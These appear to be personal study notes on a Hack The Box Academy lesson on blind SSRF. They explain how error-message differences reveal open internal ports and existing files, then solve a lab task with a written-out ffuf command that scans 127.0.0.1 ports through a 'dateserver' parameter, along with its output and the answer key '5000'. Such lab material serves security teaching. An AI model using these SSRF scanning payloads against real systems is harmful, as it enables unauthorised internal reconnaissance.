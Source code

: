 ```yaml
---
sticker: lucide//server
---
```

In many real-world SSRF vulnerabilities, the response is not directly displayed to us. These instances are called `blind` SSRF vulnerabilities because we cannot see the response. As such, all of the exploitation vectors discussed in the previous sections are unavailable to us because they all rely on us being able to inspect the response. Therefore, the impact of blind SSRF vulnerabilities is generally significantly lower due to the severely restricted exploitation vectors.

---

## Identifying Blind SSRF

The sample web application behaves just like in the previous section. We can confirm the SSRF vulnerability just like we did before by supplying a URL to a system under our control and setting up a `netcat` listener:

```shell-session
smoothment@htb[/htb]$ nc -lnvp 8000

listening on [any] 8000 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 32928
GET /index.php HTTP/1.1
Host: 172.17.0.1:8000
Accept: */*
```

However, if we attempt to point the web application to itself, we can observe that the response does not contain the HTML response of the coerced request; instead, it simply lets us know that the date is unavailable. Therefore, this is a blind SSRF vulnerability:

![image](https://academy.hackthebox.com/storage/modules/145/ssrf/ssrf_blind_1.png)

---

## Exploiting Blind SSRF

Exploiting blind SSRF vulnerabilities is generally severely limited compared to non-blind SSRF vulnerabilities. However, depending on the web application's behavior, we might still be able to conduct a (restricted) local port scan of the system, provided the response differs for open and closed ports. In this case, the web application responds with `Something went wrong!` for closed ports:

![image](https://academy.hackthebox.com/storage/modules/145/ssrf/ssrf_blind_2.png)

However, if a port is open and responds with a valid HTTP response, we get a different error message:

![image](https://academy.hackthebox.com/storage/modules/145/ssrf/ssrf_blind_3.png)

Depending on how the web application catches unexpected errors, we might be unable to identify running services that do not respond with valid HTTP responses. For instance, we are unable to identify the running MySQL service using this technique:

![image](https://academy.hackthebox.com/storage/modules/145/ssrf/ssrf_blind_4.png)

Furthermore, while we cannot read local files like before, we can use the same technique to identify existing files on the filesystem. That is because the error message is different for existing and non-existing files, just like it differs for open and closed ports:

![image](https://academy.hackthebox.com/storage/modules/145/ssrf/ssrf_blind_5.png)

For invalid files, the error message is different:

![image](https://academy.hackthebox.com/storage/modules/145/ssrf/ssrf_blind_6.png)


# Question
---

![[Pasted image 20250212123042.png]]

We know we are dealing with blind SSRF, when we try to point at an invalid resource of the server, we can see this:


![[Pasted image 20250212123247.png]]

We get an error message saying `Something went wrong!`, what about if we point at a valid resource:

![[Pasted image 20250212123337.png]]

We get a different error message, since we need to enumerate ports, we can use ffuf in the following way:

```
ffuf -w ports.txt:FUZZ -u http://10.129.70.117/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://127.0.0.1:FUZZ&date=2024-01-01" -fr 'Something went wrong!'
```

In order to create our `ports.txt` wordlist, we can use the following command:

```
seq 1 65535 > ports.txt
```

Once we've fuzzed, we get the following:

```
ffuf -w ports.txt:FUZZ -u http://10.129.70.117/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://127.0.0.1:FUZZ&date=2024-01-01" -fr 'Something went wrong!' -ic -c -t 200

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://10.129.70.117/index.php
 :: Wordlist         : FUZZ: /home/samsepiol/ports.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : dateserver=http://127.0.0.1:FUZZ&date=2024-01-01
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: Something went wrong!
________________________________________________

5000                    [Status: 200, Size: 52, Words: 8, Lines: 1, Duration: 111ms]
80                      [Status: 200, Size: 52, Words: 8, Lines: 1, Duration: 3977ms]
```


Answer is `5000`